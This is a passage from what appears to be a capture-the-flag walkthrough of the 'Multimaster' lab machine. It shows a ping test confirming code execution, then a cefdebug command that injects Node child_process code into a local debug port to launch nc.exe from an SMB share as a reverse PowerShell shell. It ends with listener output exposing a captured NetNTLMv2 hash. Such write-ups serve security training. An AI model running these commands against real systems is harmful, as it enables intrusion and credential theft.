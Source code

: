 We can verify code-execution by issuing a ping back to our machine. If we have code-execution, we should receive 4 ICMP echo-requests.

```bash
root@darkness:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:01:06.370692 IP 10.10.10.179 > 10.10.14.22: ICMP echo request, id 1, seq 1, length 40
18:01:06.370892 IP 10.10.14.22 > 10.10.10.179: ICMP echo reply, id 1, seq 1, length 40
18:01:07.377162 IP 10.10.10.179 > 10.10.14.22: ICMP echo request, id 1, seq 2, length 40
18:01:07.377248 IP 10.10.14.22 > 10.10.10.179: ICMP echo reply, id 1, seq 2, length 40
18:01:08.595013 IP 10.10.10.179 > 10.10.14.22: ICMP echo request, id 1, seq 3, length 40
18:01:08.595066 IP 10.10.14.22 > 10.10.10.179: ICMP echo reply, id 1, seq 3, length 40
18:01:09.597456 IP 10.10.10.179 > 10.10.14.22: ICMP echo request, id 1, seq 4, length 40
18:01:09.597563 IP 10.10.14.22 > 10.10.10.179: ICMP echo reply, id 1, seq 4, length 40
```

We have received the ICMP requests and have therefore verified code-execution! Let us get a shell next.

For this we will start an smb-server and serve the `nc.exe` binary. Luckily kali already has the binary located at `/usr/share/windows-binaries`.

```bash
root@darkness:/usr/share/windows-binaries# impacket-smbserver share `pwd` -smb2support
Impacket v0.9.22.dev1+20200513.101403.9a4b3f52 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

With the smb-server running, we just have to execute a reverse-shell instead of the ping.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe --code "process.mainModule.require('child_process').exec('\\\\10.10.14.22\\share\\nc.exe 10.10.14.22 443 -e powershell.exe')" --url ws://127.0.0.1:12837/9b30d829-6e07-4a2f-87be-da6542cf7668
[2020/06/11 09:14:44:1689] U: <<< ChildProcess
```

Checking our SMB-listener we should get a connection soon.

```bash
[*] Incoming connection (10.10.10.179,51386)
[*] AUTHENTICATE_MESSAGE (MEGACORP\cyork,MULTIMASTER)
[*] User MULTIMASTER\cyork authenticated successfully
[*] cyork::MEGACORP:4141414141414141:ccd3158b46eee4e72edb581b08f27c8b:010100000000000080312f700a40d601240f6a7c818a2fb0
00000000010010006d0079006e0054004200650071005500030010006d0079006e0054004200650071005500020010006f004e00510062006c006e
0050004600040010006f004e00510062006c006e00500046000700080080312f700a40d6010600040002000000080030003000000000000000010000000020000085a8ce7e3682be3bce46944ac03cb66018d80ae576687f51f35ad2ea9ace5e060a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320032000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
```
